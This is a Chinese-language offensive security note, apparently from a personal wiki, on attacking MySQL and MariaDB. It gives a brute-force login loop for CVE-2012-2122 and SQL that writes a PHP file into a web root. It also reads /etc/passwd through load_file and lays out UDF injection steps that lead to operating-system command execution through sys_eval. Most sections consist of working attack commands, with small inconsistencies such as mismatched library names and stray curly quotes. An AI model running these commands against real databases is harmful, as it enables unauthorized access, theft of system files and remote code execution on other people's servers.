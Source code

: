 ```yaml
---
tags:
  - database
create_time: 2024-07-27 14:20
modified_time: 2024-07-27 14:20
status: complete
---
```

## 0x01 CVE-2012-2122

当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp () 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。按照公告说法大约 256 次就能够蒙对一次

影响版本：

All MariaDB and MySQL versions up to 5.1.61, 5.2.11, 5.3.5, 5.5.22 are vulnerable
MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.


- 通过 bash 脚本直接进行爆破攻击

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

## 0x02 读取写入文件

在利用 sql 注入漏洞后期，最常用的就是通过 mysql 的 file 系列函数来进行读取
敏感文件或者写入 webshell，其中比较常用的函数有以下三个 into dumpfile ()、
Into outfile ()、load_file ()

限制条件：mysql 的读写文件都受到 secure_file_priv 参数的影响。
​	这个值可以通过命令 select @@secure_file_priv 查询。由于这个参数不能动态更改，只能在 mysql 的配置
文件中进行修改，然后重启生效。
- 其中当参数 secure_file_priv 为空时，对导入导出无限制
- 当值为一个指定的目录时，只能向指定的目录导入导出
- 当值被设置为 NULL 时，禁止导入导出功能


## 0x03 mysql 文件写入

```mysql
show VARIABLES LIKE "secure_file_priv";
select '<?php phpinfo()?>' into outfile '/var/www/html/1.php';
```

![](../../../_Attachment/mysql.assets/file-20241017150225941.png)

## 0x04 mysql 文件读取

```mysql
Create database test2;
Use test2
Create table user(cmd text);
insert into user(cmd) values (load_file('/etc/passwd’));

Select * from user;
```
![](../../../_Attachment/mysql.assets/file-20241017150257105.png)

## 0x05 mysql udf 使用

- Udf = 'user defined function'，即用户自定义函数。是通过添加新函数，对 MYSQL 的功能进行扩充，性质就象使用本地 MYSQL 函数如 abs () 或 concat ()。

攻击思路：
1. 编写一个系统命令调用函数；
2. 加载到 mysql 功能中；
3. 调用该函数执行系统命令。

1. 使用 `show variables like “%plugin%”;` 查看插件路径情况
![](../../../_Attachment/mysql.assets/file-20241017150349213.png)

2. 获取 udf 脚本，参考链接:https://github.com/rapid7/metasploitframework/tree/master/data/exploits/mysql
3. 使用 mysql 数据库的命令将 udf 插件写入插件目录：`select unhex("77,90,144…") into dumpfile '/usr/local/mysql/lib/plugin/udf.so';`

4. 使用刚才导入的插件，调用命令执行函数：`create function sys_eval returns string soname 'mysqludf.so';`
   
![](../../../_Attachment/mysql.assets/file-20241017150400849.png)

5. 导入成功后尝试命令执行 `select sys_eval(‘ifconfig’)`
![](../../../_Attachment/mysql.assets/file-20241017150411195.png)